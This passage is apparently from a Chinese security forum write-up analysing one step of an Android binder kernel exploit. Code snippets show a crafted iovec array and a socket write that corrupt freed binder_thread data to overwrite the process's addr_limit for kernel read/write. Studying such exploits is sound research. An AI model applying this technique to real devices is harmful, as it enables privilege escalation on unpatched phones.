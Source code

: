 ![](https://bbs.pediy.com/upload/attach/202101/726411_DZBWXAP2E8JDJ9C.png)

 

![](https://bbs.pediy.com/upload/attach/202101/726411_QPEJ3UHSUZPE8PT.png)  
注释已经写的很清楚了。

```
iovec_array[IOVEC_INDX_FOR_WQ].iov_base = dummy_page_4g_aligned;
iovec_array[IOVEC_INDX_FOR_WQ].iov_len = 1;
iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_base = (void *)0xDEADBEEF;
iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_len = 0x8 + 2 * 0x10;
iovec_array[IOVEC_INDX_FOR_WQ + 2].iov_base = (void *)0xBEEFDEAD;
 
iovec_array[IOVEC_INDX_FOR_WQ + 2].iov_len = 8;

```

当 epoll_ctl(epfd, EPOLL_CTL_DEL, binder_fd, &event); 调用完毕，

```
iovec_array[IOVEC_INDX_FOR_WQ].iov_len = &(binder_thread->wait+8)                 iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_base =&(binder_thread->wait+8)

```

这时候 write 调用开始连续写入 iov_base. 写入的内容如下：

```
unsigned long second_write_chunk[] = {
    1, /* iov_len */
    0xdeadbeef, /* iov_base (already used) */
    0x8 + 2 * 0x10, /* iov_len (already used) */
    current_ptr + 0x8, /* next iov_base (addr_limit) */
    8, /* next iov_len (sizeof(addr_limit)) */
    0xfffffffffffffffe /* value to write */
  };

```

注意因为在 //step 2 write(socks[1], "X", 1) 已经提前写入长度为 1 的值，所以对 iov_len 的修改后期并没有起作用，否则将会拷贝 iovec_array[IOVEC_INDX_FOR_WQ].iov_len = &(binder_thread->wait+8) 长度的数据到 dummy_page_4g_aligned。

 

然后 step 5 中

 

write(socks[1],second_write_chunk,sizeof(second_write_chunk)) 开始对

 

iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_base =&(binder_thread->wait+8) 这个地址进行写入，长度为 0x8 + 2 * 0x10

 

这时候 binder_thread 的内部数据发生变化：

```
binder_thread.wait.task_list.next = 1 //iov_len
 
binder_thread.wait.task_list.prev = 0xdeadbeef //base
 
binder_thread.x1 = 0x8 + 2 * 0x10 //len
 
binder_thread.x2 = current_ptr + 0x8//base
 
binder_thread.x3 = 8

```
